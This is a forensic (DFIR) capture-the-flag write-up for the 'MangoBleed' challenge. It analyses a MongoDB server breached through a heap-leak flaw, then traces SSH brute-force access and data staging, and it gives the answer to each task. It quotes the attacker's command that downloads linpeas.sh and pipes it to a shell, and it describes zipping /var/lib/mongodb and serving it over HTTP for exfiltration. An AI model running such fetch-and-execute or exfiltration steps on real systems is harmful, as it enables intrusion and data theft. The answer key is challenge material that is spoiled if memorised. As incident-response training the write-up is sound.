


# MangoBleed
#### Categories: DFIR <br> Difficulty: Very Easy

## Sherlock Scenario
You were contacted early this morning to handle a high‑priority incident involving a suspected compromised server. The host, mongodbsync, is a secondary MongoDB server. According to the administrator, it's maintained once a month, and they recently became aware of a vulnerability referred to as MongoBleed. As a precaution, the administrator has provided you with root-level access to facilitate your investigation.

You have already collected a triage acquisition from the server using UAC. Perform a rapid triage analysis of the collected artifacts to determine whether the system has been compromised, identify any attacker activity (initial access, persistence, privilege escalation, lateral movement, or data access/exfiltration), and summarize your findings with an initial incident assessment and recommended next steps.

## Attachments
- `MangoBleed.zip.zip`

## Solve
After downloading and extracting the attachment, I obtained the directory `uac-mongodbsync-linux-triage`, which contains logs and artifacts from the compromised server.

<br>

### Task 1
#### Question:
What is the CVE ID designated to the MongoDB vulnerability explained in the scenario?

#### Answer:
- MongoBleed is an unauthenticated heap memory disclosure vulnerability in MongoDB Server, allowing unauthenticated remote attackers to leak process memory contents.
- MongoDB compresses network messages using `zlib`. Decompression relies on the `uncompressedSize` field provided by the client. An attacker can set this field to an arbitrarily large value compared to the actual compressed payload. MongoDB allocates an uninitialized heap buffer of that specified size and returns it, leaking raw heap memory contents back to the client.

NIST Reference: [CVE-2025-14847](https://nvd.nist.gov/vuln/detail/CVE-2025-14847)

Answer: **CVE-2025-14847**

<br>

### Task 2
#### Question:
What is the version of MongoDB installed on the server that the CVE exploited?

#### Answer:
Search for `buildInfo` in `/var/log/mongodb/mongod.log` to determine the installed MongoDB server version.

Answer: **8.0.16**

<br>

### Task 3
#### Question:
Analyze the MongoDB logs to identify the attacker's remote IP address used to exploit the CVE.

#### Answer:
Because the amount of leaked memory per request is limited and heap allocation is fragmented and non-deterministic, exploiting this vulnerability requires establishing a high volume of connections.

In `mongod.log`, there is a large volume of short-lived connections originating from IP `65.0.76.43`.



Answer: **65.0.76.43**

<br>

### Task 4
#### Question:
Based on the MongoDB logs, determine the exact date and time the attacker’s exploitation activity began (the earliest confirmed malicious event)

#### Answer:
The first connection from the attacker's IP address was established at `2025-12-29 05:25:52`.

Answer: **2025-12-29 05:25:52**

<br>

### Task 5
#### Question:
Using the MongoDB logs, calculate the total number of malicious connections initiated by the attacker.

#### Answer:
Using `grep` to count the occurrences of IP `65.0.76.43` in the log yields a total of 75,260 entries:

``` bash
grep -o '65.0.76.43' mongod.log | uniq -c
```
Each connection session generates two log entries (`Connection accepted` and `Connection ended`), accounting for 37,630 total sessions. Since the question asks for the total log entries related to these connections, the result is 75260.

Answer: **75260**

<br>

### Task 6
#### Question:
The attacker gained remote access after a series of brute‑force attempts. The attack likely exposed sensitive information, which enabled them to gain remote access. Based on the logs, when did the attacker successfully gain interactive hands-on remote access?

#### Answer:
Filtering `auth.log` for accepted SSH connections from `65.0.76.43` reveals two matching events:
```
2025-12-29T05:39:24.276756+00:00 ip-172-31-38-170 sshd[39825]: Accepted keyboard-interactive/pam for mongoadmin from 65.0.76.43 port 55056 ssh2
2025-12-29T05:40:03.475659+00:00 ip-172-31-38-170 sshd[39962]: Accepted keyboard-interactive/pam for mongoadmin from 65.0.76.43 port 46062 ssh2
```

The connection at `2025-12-29T05:39:24` was generated by an automated brute-force tool and closed immediately after authentication. The interactive hands-on session began with the second connection.

Answer: **2025-12-29 05:40:03**

<br>

### Task 7
#### Question:
Identify the exact command line the attacker used to execute an in‑memory script as part of their privilege‑escalation attempt.

#### Answer:
The compromised account is `mongoadmin`. Checking `.bash_history` for this user reveals the exact command executed for privilege escalation:


Answer: **curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh**

<br>

### Task 8
#### Question:
The attacker was interested in a specific directory and also opened a Python web server, likely for exfiltration purposes. Which directory was the target?

#### Answer:
According to `.bash_history`, the attacker navigated to `/var/lib/mongodb/`, archived the contents using `zip` for staging, and spawned a Python HTTP server to exfiltrate the data.

Answer: **/var/lib/mongodb**